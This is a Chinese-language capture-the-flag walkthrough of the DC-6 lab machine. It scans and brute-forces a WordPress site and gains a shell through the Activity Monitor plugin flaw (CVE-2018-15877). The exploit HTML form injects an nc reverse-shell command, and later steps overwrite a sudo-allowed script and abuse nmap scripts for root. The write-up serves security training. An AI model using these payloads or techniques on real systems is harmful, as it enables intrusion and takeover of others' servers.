## DC-6 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-6          | `192.168.1.106` |

### 扫描端口和版本信息

`nmap -A 192.168.1.106`



### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **WordPress 5.1.1**。设置 *host* 后访问 Web



经过 OSINT 搜索，知道该版本的 WordPress 存在 **CSRF to RCE** 漏洞 ，不过利用条件是需要管理账户点击利用链接，这显然不太现实，因为该环境是虚拟机环境。不过出题人给了我们明确的提示：

```
OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
```

既然作者提示制作密码字典，显然需要我们暴力破解，使用 `wpscan` 工具进行暴力破解。在此之前执行下列命令枚举出用户

`wpscan --url http://wordy --enumerate u`



得到 5 个用户：`admin`、`mark`、`graham`、`sarah` 和 `jens`。目前为止我们知道用户名和密码字典，接下来同样使用 `wpscan `工具来爆破密码

`wpscan --url http://wordy -U users.txt -P passwd.txt`

结果得到一个用户和密码： `mark:helpdesk01`，之后使用该账户登陆到 WordPress



经过探索，当前用户可以新建页面但却不能发布。不过倒是看到该 WordPress 安装的唯一的插件：*Activity Monitor*



### Getshell

结果意料之内，该插件存在漏洞，可以进行 CSRF 攻击。我们将该文本复制到当前目录后再重命名为 `getshell.html`，并且需要稍许修改

```html
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy:80/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="localhost | nc 192.168.1.112 6677 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

在 Kali 上开启简易 HTTP 服务器（`python3 -m http.server 8088`），同时监听 **6677** 端口，此外在 Win10 上访问该 HTML

 

因为在 Win10 上登陆了 WordPress，只要我们在浏览器中点击该按钮，就会里面执行代码（提交的表单中的数据是发送给插件里的某一项功能）



Kali 接收到反弹 shell，并且成功 Getshell。之后在 `/home `目录下执行 ` ls -lhaR` 命令时（递归显示文件夹），结果在 `/home/jens` 下发现 `backups.sh` 脚本文件，在 `/home/mark/stuff` 路径下发现 `things-to-do.txt` 文本文件，并且该文件给出了一个用户名和密码：` graham:GSo7isUM1D4`





切换到该用户后查看 *sudo* 权限我们可以知道他可以无密码执行 `jens` 用户的 `backups.sh` 脚本文件



之后步骤显而易见，执行命令：`echo "/bin/bash" > backups.sh` 后使用 sudo 权限执行该脚本就可以切换到 `jens` 用户



### 提权

如法炮制，`nmap `工具的 `--script` 参数可以加载文件，填入系统命令到文件就可以执行



### 总结

1.  `wpscan` 工具使用 API KEY 进行常规扫描：

   `wpscan --url xxx -e --api-token xxx`

2. `wpscan` 工具枚举用户：

   `wpscan --url xxx --enumerate u`

